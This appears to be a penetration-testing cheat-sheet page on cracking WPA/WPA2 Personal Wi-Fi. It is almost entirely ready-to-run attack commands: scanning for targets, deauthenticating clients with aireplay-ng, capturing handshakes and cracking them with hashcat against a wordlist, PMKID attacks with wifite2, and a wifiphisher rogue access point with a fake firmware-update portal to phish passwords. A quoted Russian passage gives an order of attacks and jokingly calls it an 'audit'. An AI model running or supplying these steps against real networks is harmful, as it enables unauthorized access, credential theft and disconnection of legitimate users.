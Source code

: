 ```yaml
---
description: Wi-Fi Protected Access Personal
---
```


# WPA/WPA2 Personal




## 4-Way Handshake

* [https://www.wifi-professionals.com/2019/01/4-way-handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work](https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work)
* [https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
* [https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng](https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng)
* [https://hackware.ru/?p=74](https://hackware.ru/?p=74)
* [https://hackware.ru/?p=7542](https://hackware.ru/?p=7542)
* [https://hackware.ru/?p=5209](https://hackware.ru/?p=5209)

1\. Look for targets. Save BSSID (`00:00:00:00:00:01`), CH (`9`), ESSID (`SomeEssid`) and STATION (`00:00:00:00:00:02`) if deauth will be required:

```
$ sudo airodump-ng -M -U wlan1 [-c 36-165 (for 5GHz, see WLAN channels) or just -c 1-200 for all] [--band <abg>]
qq
```

2\. Start dumping the target's traffic:

```
[$ sudo iwconfig wlan1 channel 9]
$ sudo airodump-ng -c 9 --bssid 00:00:00:00:00:01 -w SomeEssid wlan1
```

3\. Send DeAuth packets in a separate terminal till `WPA handshake: XX:XX:XX:XX:XX:XX` appears (aggressive):

```
$ sudo aireplay-ng [-D] -0 2 -a 00:00:00:00:00:01 -c 00:00:00:00:00:02 wlan1
Or
$ for client in `cat 00:00:00:00:00:01.txt`; do sudo aireplay-ng -D -0 2 -a 00:00:00:00:00:01 -c $client wlan1; done
```

4\. Clean the capture, check it once again, covert to Hashcat format and crack it:

```
$ aircrack-ng SomeEssid*.cap
$ wpaclean SomeEssid-cleaned.cap SomeEssid-01.cap
$ cowpatty -r SomeEssid-cleaned.cap -s SomeEssid -c
$ /usr/lib/hashcat-utils/cap2hccapx.bin SomeEssid-cleaned.cap SomeEssid.hccapx
$ hashcat -m 2500 -O -a 0 -w 4 --session=wpa2_handshakes -o wpa2_handshakes.out wpa2_handshakes.in SomeEssid.hccapx seclists/Passwords/darkc0de.txt
```



### wifite2

```
$ sudo wifite -vi wlan1 --clients-only --wpa --no-wps
```




## PMKID

* [https://https://habr.com/ru/company/jetinfosystems/blog/419383/](https://habr.com/ru/company/jetinfosystems/blog/419383/)



### wifite2

```
$ sudo wifite -vi wlan1 --pmkid
```




## wifite2

* [https://github.com/derv82/wifite2](https://github.com/derv82/wifite2)
* [https://github.com/nuncan/wifite2mod](https://github.com/nuncan/wifite2mod)

> «Поэтому оптимальный алгоритм взло… аудита следующий: определяем, включен ли на целевой точке доступа режим WPS. Если да, запускаем PixieDust. Безуспешно? Тогда перебор известных пинов. Не получилось? Проверяем, не включено ли шифрование WEP, которое тоже обходится влет. Если нет, то выполняем атаку PMKID на WPA(2). Если уж и так не получилось, тогда вспоминаем классику и ждем хендшейка (чтобы не палиться) или активно кикаем клиентов, чтобы наловить их сессии авторизации.» — [\]\[](https://xakep.ru/2020/01/27/wifi-total-pwn/)

Install wifite2:

```
$ git clone https://github.com/derv82/wifite2 ~/tools/wifite2 && cd ~/tools/wifite2
$ sudo python setup.py install
```

Install hcxdumptool (for capturing PMKID hashes):

```
$ git clone https://github.com/ZerBea/hcxdumptool.git ~/tools/hcxdumptool && cd ~/tools/hcxdumptool
$ sudo apt install libcurl4-openssl-dev libssl-dev -y
$ make
$ sudo make install
```

Install (for converting PMKID packet captures into hashcat's format):

```
$ git clone https://github.com/ZerBea/hcxtools.git ~/tools/hcxtools && cd ~/tools/hcxtools
$ make
$ sudo make install
```

Fire up wifite2:

```
$ sudo wifite -vi wlan1 [--kill] [-5]
```




## airgeddon

* [https://github.com/v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)

```
$ git clone --depth 1 https://github.com/v1s1t0r1sh3r3/airgeddon.git ~/tools/airgeddon && cd ~/tools/airgeddon
$ sudo bash airgeddon.sh
```




## wifiphisher

* [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
* [Creating a custom phishing scenario · wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher/blob/5ae21ab93e0dce85dd4bf76e68cc3b996aa33dea/docs/custom_phishing_scenario.rst)

Install:

```
$ git clone https://github.com/wifiphisher/wifiphisher.git ~/tools/wifiphisher && cd ~/tools/wifiphisher
$ sudo python3 setup.py install # Install any dependencies
```

Start a rogue AP with fake captive portal (firmware update scenario) on wlan1 and deauth clients with wlan2:

```
$ sudo wifiphisher -aI wlan1 -eI wlan2 -p wifi_connect
```
